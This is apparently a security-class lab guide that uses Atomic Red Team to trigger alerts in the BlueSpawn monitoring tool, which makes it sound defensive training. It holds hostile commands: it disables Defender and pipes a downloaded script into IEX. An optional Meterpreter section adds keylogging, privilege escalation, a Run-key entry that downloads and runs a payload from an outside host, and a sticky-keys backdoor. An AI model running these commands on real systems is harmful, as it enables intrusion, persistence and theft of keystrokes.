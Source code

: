 

# Atomic Red Team And Bluespawn

In this lab we will be using Bluespawn as a stand-in for an EDR system.  Normally full EDRs like Cylance and Crowdstrike are very expensive and tend not to show up in classes like this.  However, the folks at University of Virginia have done an outstanding job with BlueSpawn. 

BlueSpawn will monitor the system for "weird" behavior and note it when it occurs. For the money, it is great.

In this lab, we will be starting BlueSpawn and then running Atomic Red Team to trigger a lot of alerts.

First, we need to disable Defender. 
Start by opening up <b>Windows Powershell</b>.

![](attachments/OpeningPowershell.png)

Next, run the following command:

<pre>Set-MpPreference -DisableRealtimeMonitoring $true</pre>

![](attachments/disableDefender.png)

This will disable Defender for this session.

>[!NOTE]
>
>If you get angry red errors, that is Ok, it means Defender is not running.


Now, let's open a command prompt by clicking on the icon in the taskbar:

![](attachments/openingcommandprompt.png)

 
Next, let’s change directories to tools and start Bluespawn:

<pre>cd \IntroLabs</pre>

<pre>BLUESPAWN-client-x64.exe --monitor --level Cursory</pre>
 
![](attachments/cdandstartbluespawn.png)

You should see something like this:

![](attachments/bluspawnlaunched.png)

If you made it this far, perfect! That means Bluespawn is up and running.

Now, let’s use Atomic Red Team to test the monitoring with BlueSpawn:

First, we need to open a PowerShell terminal. 

You can do this by selecting the icon in the taskbar:

![](attachments/OpeningPowershell.png)

Now we need to install and update Atomic Red Team. Run the following:

<pre>cd \</pre>

<pre>IEX (IWR 'https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/install-atomicredteam.ps1' -UseBasicParsing);
Install-AtomicRedTeam -getAtomics -Force</pre>

>[!NOTE]
>
> This can take a bit. Be patient!

Once you see the following, you are set to move forward:

![](attachments/installationconfirmation.png)

Next, in the PowerShell Window we need to navigate to the Atomic Red Team directory and import the powershell modules:

<pre>cd C:\AtomicRedTeam\invoke-atomicredteam\</pre>

Then, install the proper `yaml` modules by running the following:

<pre>Install-Module -Name powershell-yaml</pre>

>[!NOTE]
>
>When prompted, press Y to install the modules.

<pre>Import-Module .\Invoke-AtomicRedTeam.psm1</pre>


Once we do this, we need to invoke all the Atomic Tests.

>[!IMPORTANT]  
>
>Don't do this in production...  Ever.
>  
>Always run tools like Atomic Red Team on test systems.
>
>We recommend that you run in on a system with your EDR/Endpoint protection in non-blocking/alerting mode. This is so you can see what the protection would have done, but it will allow the tests to finish so we are just going to run individual tests for now.

Run the following individually:

<pre>Invoke-AtomicTest T1547.004</pre>

<pre>Invoke-AtomicTest T1543.003</pre>

<pre>Invoke-AtomicTest T1547.001</pre>

<pre>Invoke-AtomicTest T1546.008</pre>


>[!TIP]
>
>If you get any “file exists” questions or errors, just select `Yes`.

It should look like this:

![](attachments/invokeatomicv1.png)

>[!NOTE]
>
>There might be some errors when this runs. This is 
normal.

>[!NOTICE]
>
>We had to cross reference the old numbering with the new.
>
>You can find that mapping here:
>
>https://attack.mitre.org/docs/subtechniques/subtechniques-crosswalk.json
>
>![](attachments/crossreference.png)


You should be getting a lot of alerts with Bluespawn! Switch tabs in your Terminal to see them:

![](attachments/bluespawndetections.png)

Now, let’s go back to the PowerShell window and clean up:

<pre>Invoke-AtomicTest All -Cleanup</pre>

It should look like this:

![](attachments/Clipboard_2020-06-23-13-36-10.png)

# Optional Section: Meterpreter

If you have more time, feel free to exploit system using the commands we went through in AppLocker or Sysmon and then run the following Meterpreter commands:

<pre>keyscan_start</pre>

<pre>keyscan_dump</pre>

![](attachments/Clipboard_2020-06-15-13-52-00.png)

<pre>shell</pre>

<pre>reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v Payload /d "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://172.20.243.5:80/a'))\"" /f</pre>

<pre>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "c:\windows\system32\cmd.exe"</pre>

![](attachments/Clipboard_2020-06-15-14-00-53.png)


<pre>getsystem</pre>

![](attachments/Clipboard_2020-06-15-13-52-28.png)


![](attachments/Clipboard_2020-06-15-13-56-34.png)

***                                                       

<b><i>Looking for a different lab? </br>[Lab Directory](/IntroClassFiles/navigation.md)</i></b>

***Finished with the Labs?***

Please be sure to destroy the lab environment!

[Click here for instructions on how to destroy the Lab Environment](/IntroClassFiles/Tools/IntroClass/LabDestruction/labdestruction.md)

---


